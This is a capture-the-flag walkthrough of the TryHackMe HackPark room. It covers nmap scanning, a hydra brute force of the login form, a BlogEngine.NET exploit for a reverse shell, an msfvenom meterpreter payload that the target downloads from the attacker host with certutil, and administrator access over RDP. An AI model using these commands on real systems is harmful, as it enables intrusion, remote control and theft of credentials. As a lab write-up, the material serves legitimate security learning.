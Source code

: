 # TryHackMe-Hack Park

>Abdullah Rizwan | 09 : 45 PM | 30th October 2020

## NMAP

This is a windows machine so it might not respond to ping so in this we are going to use `-Pn` to ingore ping the box
```
nmap -Pn -sC -sV 10.10.34.2

Host is up (0.17s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-10-30T16:52:20+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
## PORT 80

<img src="https://imgur.com/nOYC3rf.png"/>

I uploaded the image to see where this image was on the internet

<img src="https://imgur.com/WfgWFD7.png"/>

Then I came on to a page where it mentions the clown's name `pennywise`

<img src="https://imgur.com/J8mG2C8.png"/>

## Gobuster

<img src="https://imgur.com/KV2eaqt.png"/>

Here we see an `/admin` page lets visit it 

<img src="https://imgur.com/q2OCmr1.png"/>

We can on the source that this is `post` form which the request that will be made here will be post a request.

<img src="https://imgur.com/6KpPuR7.png"/>


## Hydra

Now that we know it's a `post` request login form let's try to bruteforce it with `hydra` but we want a username to bruteforce with so by looking at the hints provided by this room the username is `admin` .

Doing  this will give you wrong results 

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.34.2 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin:UserName=^USER^ & Password=^PASS^&Login:Login failed"`

<img src="https://imgur.com/UA1LzC1.png"/>

Now we launch `burpsuite` intercept the login page with the credentials and we will get this request

<img src="https://imgur.com/KG8z3Xx.png"/>

```
__VIEWSTATE=rKI96%2BsCmsHE%2BBnXdIfX2SDkfH9eXlljTdGkdGcVZvZs4wFTrEcHN8RzIiJUP3%2BmIotfzJsQcEGZkMsFWgCKCcodwrJ0SgoYW6AHLLU3Lf9eI4t0abp6pf2yQ6TIJhJb8D143UhfjmN83j2hEeECKoz5FknRAYWStUq%2FPQA%2FIuHRtaES66kLKksczFvJuU%2B5g5E0lZFLWKoiBU8kIHH%2FBJcfOZrMU4UiWe9lOS2zOwtICdeoD3%2FmgBKIVbefaQDASAS%2BEyufY0WmK%2FGQlKkKrKgw7aY5yjnjHK0qlnhWSlYirlOzmQG1OM%2BgjNLe9lh%2B0FnTKo%2B8l2yrE%2FOtmjfzo7GUHHDyy2kG3Jzb%2Fnc63sYdmpE3&__EVENTVALIDATION=TuS%2F6KtXDbAW7T9F99qLDc%2Bdn5DVR%2FFt6iHlpBIA70gHcfSj6gOvo%2BedBax4e%2Bg9AHpwy0wZr9UAz18%2FzK7qGWGOt3Qa3y0kYnv7So%2BCr7Dx%2F2hgHXmU8QEl1nZbLT%2B9X%2FYLOQfNLu6V2SMGWewSmvdqTs%2FIbIHGLoXPTljXEiu4yPSy&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```
Modify the command by replacing `%21admin:` with `/admin:` and Username=admin with `^USER^` , Password=`^PASS^`

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.34.2 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=rKI96%2BsCmsHE%2BBnXdIfX2SDkfH9eXlljTdGkdGcVZvZs4wFTrEcHN8RzIiJUP3%2BmIotfzJsQcEGZkMsFWgCKCcodwrJ0SgoYW6AHLLU3Lf9eI4t0abp6pf2yQ6TIJhJb8D143UhfjmN83j2hEeECKoz5FknRAYWStUq%2FPQA%2FIuHRtaES66kLKksczFvJuU%2B5g5E0lZFLWKoiBU8kIHH%2FBJcfOZrMU4UiWe9lOS2zOwtICdeoD3%2FmgBKIVbefaQDASAS%2BEyufY0WmK%2FGQlKkKrKgw7aY5yjnjHK0qlnhWSlYirlOzmQG1OM%2BgjNLe9lh%2B0FnTKo%2B8l2yrE%2FOtmjfzo7GUHHDyy2kG3Jzb%2Fnc63sYdmpE3&__EVENTVALIDATION=TuS%2F6KtXDbAW7T9F99qLDc%2Bdn5DVR%2FFt6iHlpBIA70gHcfSj6gOvo%2BedBax4e%2Bg9AHpwy0wZr9UAz18%2FzK7qGWGOt3Qa3y0kYnv7So%2BCr7Dx%2F2hgHXmU8QEl1nZbLT%2B9X%2FYLOQfNLu6V2SMGWewSmvdqTs%2FIbIHGLoXPTljXEiu4yPSy&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -V

```


<img src="https://imgur.com/113BURI.png"/>

Now give it some time while it's ruuning 

<img src="https://imgur.com/rCaj2oT.png"/>

And you will have your username : `admin` and password : `1qaz2wsx`

<img src="https://imgur.com/IkZtMrd.png"/> 

<img src="https://imgur.com/hqhpTq4.png"/>

You can see here that it is using `blogengine.net` and it's version is `3.3.6`. So first thing that I'am going to do is search for this on `exploit-db`

https://www.exploit-db.com/exploits/46353

<img src="https://imgur.com/r9FFuln.png"/>


Now edit your IP and port in this code 

<img scr="https://imgur.com/yjZfCJX.png"/>

Save it as `PostView.ascx` 

<img src="https://imgur.com/x8qIvhG.png"/>


Go to `Posts` on the blogenginge

<img src="https://imgur.com/bvCHx6j.png"/>


<img src="https://imgur.com/2ZW9WAF.png"/>


<img src="https://imgur.com/7I2LHIJ.png"/>

Set up your `netcat` listener

Navigate to `http://10.10.34.2/?theme=../../App_Data/files`

<img src="https://imgur.com/DS7kjLU.png"/>


<img src="https://imgur.com/6dCUcb9.png"/>


Now this shell is unstable so we are going to upload a payload and capture it using `metasploit`

## Msfvenom

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.14.3.143  LPORT=5555 -f exe > shell.exe
```

<img src="https://imgur.com/DJUbGfB.png">

## Metasploit

Launch metasploit through `msfconsole -q` 

`use exploit/multi/handler ` for listener

<img src="https://imgur.com/4yX4MSe.png"/>

Set the options as same as on the payload

<img src="https://imgur.com/e9sZ8t6.png"/>

Now upload it to the reverse shell

`python3 -m http.server 80`  For uploading 

`certutil.exe -urlcache -f http://10.14.3.143:80/shell.exe shell.exe` For donwloading through reverse shell


<img src="https://imgur.com/WgDH07u.png"/>

And looks we have it on the windows box

<img src="https://imgur.com/6cw5ojF.png"/>

And just like that we have a stabilized reverse shell through metasploit ,awesome !

<img src="https://imgur.com/n02ykTg.png"/>

You can run `systeminfo` on cmd

```
systeminfo                                                                
                                                                          
Host Name:                 HACKPARK                                       
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User   
Registered Organization:                                                  
Product ID:                00252-70000-00000-AA886    
Original Install Date:     8/3/2019, 10:43:23 AM            
System Boot Time:          10/30/2020, 9:44:53 AM    
System Manufacturer:       Xen                                            
System Model:              HVM domU                                       
System Type:               x64-based PC          
Processor(s):              1 Processor(s) Installed.           
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2400 Mhz                   
BIOS Version:              Xen 4.2.amazon, 8/24/2006
Windows Directory:         C:\Windows  

``` 
Here you can find `Orginal Install Date`

For some reason the abonormal service part was giving me issues so I skipped doing the whole `message.exe` thing instead I found something interesting with winpeas that there are autologon credentials for the administrator , We know that RDP on port 3389 is open so we can use `remmina` and get in to the box 

<img src="https://imgur.com/gwmLIi0.png"/>

Now we are administrator and can do pretty much anythin.